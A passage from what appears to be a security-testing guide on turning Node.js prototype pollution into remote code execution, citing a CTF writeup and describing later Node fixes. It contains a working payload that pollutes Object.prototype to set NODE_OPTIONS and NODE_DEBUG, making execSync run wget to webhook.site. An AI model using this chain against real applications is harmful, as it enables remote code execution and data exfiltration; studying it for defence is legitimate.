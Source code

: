{{#endtab}}

{{#tab name="malicious.js"}}

```javascript
const { fork } = require("child_process");
console.log("Hellooo from malicious");
fork("/path/to/anything");
```

{{#endtab}}
{{#endtabs}}

#### Relative require - 3

Similar to the previous one, this was found in [**this writeup**](https://blog.huli.tw/2022/12/26/en/ctf-2022-web-js-summary/#balsn-ctf-2022-2linenodejs).

```javascript
// Requiring /opt/yarn-v1.22.19/preinstall.js
Object.prototype["data"] = {
  exports: {
    ".": "./preinstall.js",
  },
  name: "./usage",
};
Object.prototype["path"] = "/opt/yarn-v1.22.19";
Object.prototype.shell = "node";
Object.prototype["npm_config_global"] = 1;
Object.prototype.env = {
  NODE_DEBUG: "console.log(require('child_process').execSync('wget${IFS}https://webhook.site?q=2').toString());process.exit()//",
  NODE_OPTIONS: "--require=/proc/self/environ",
};

require("./usage.js");
```

## VM Gadgets

In the paper [https://arxiv.org/pdf/2207.11171.pdf](https://arxiv.org/pdf/2207.11171.pdf) is also indicated that the control of **`contextExtensions`** from some methods of the **`vm`** library could be used as a gadget.\
However, as the previous **`child_process`** methods, it has been **fixed** in the latest versions.

## Fixes & Unexpected protections

Please, note that prototype pollution works if the **attribute** of an object that is being accessed is **undefined**. If in the **code** that **attribute** is **set** a **value** you **won't be able to overwrite it**.

In Jun 2022 from [**this commit**](https://github.com/nodejs/node/commit/20b0df1d1eba957ea30ba618528debbe02a97c6a) the var `options` instead of a `{}` is a **`kEmptyObject`**. Which **prevents a prototype pollution** from affecting the **attributes** of **`options`** to obtain RCE.\
At least from v18.4.0 this protection has been **implemented,** and therefore the `spawn` and `spawnSync` **exploits** affecting the methods **no longer work** (if no `options` are used!).
